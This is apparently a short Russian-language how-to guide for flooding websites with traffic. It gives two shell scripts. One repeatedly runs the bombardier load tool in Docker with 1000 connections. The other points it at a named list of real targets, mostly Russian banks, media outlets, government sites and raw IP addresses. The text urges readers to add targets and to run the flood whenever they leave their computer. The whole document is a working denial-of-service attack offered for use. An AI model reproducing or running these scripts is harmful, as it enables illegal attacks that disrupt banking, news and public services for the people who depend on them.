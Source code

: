 1. vim run.sh
1. вставляем текст:
   ```
   #!/bin/sh
   screen -d -m -S "$2" bash -c "for i in {1..1000}; do sudo docker run -it alpine/bombardier -c 1000 -d 60s -l $1 && sleep 5; done"
   ```
1. chmod 777 run.sh
1. vim bombard.sh
1. вставляем текст:
   ```
   #!/bin/sh
   ./run.sh https://www.sberbank.ru sb
   ./run.sh https://www.sberbank.ru sb
   ./run.sh https://stories-stat.online.sberbank.ru ssoc
   ./run.sh https://clickstream.online.sberbank.ru cos
   ./run.sh https://stat.online.sberbank.ru sos
   ./run.sh http://cbr.ru/ cr
   ./run.sh https://admin.gazprombank.ru/ ag
   ./run.sh https://www.rbc.ru/ rbc
   ./run.sh http://185.72.229.13 rbc1
   ./run.sh http://80.68.253.13 rbc2
   ./run.sh http://80.68.253.3 rbc3
   ./run.sh http://185.72.229.3 rbc4
   ./run.sh https://www.rt.com rt
   ./run.sh http://185.79.236.172 rt1
   ./run.sh http://89.191.237.172 rt2
   ./run.sh http://kremlin.ru kr
   ./run.sh https://www.mchs.gov.ru mchs
   ./run.sh https://krym-webcams.ru kw
   ./run.sh http://crimea-media.ru cm
   ./run.sh https://onliner.by ob
   ./run.sh https://tinkoff.ru ti
   ./run.sh https://sevstar.net se
   ./run.sh https://bitzlato.com bi
   ./run.sh https://shop-rt.com sh
   ```
   здесь можно импровизировать ;)
1. chmod 777 bombard.sh
1. ./bombard.sh
1. Запускаем `htop`, радуемся картинке

Теперь каджый раз, когда вы отходите от компа просто запустите `./bombard.sh`
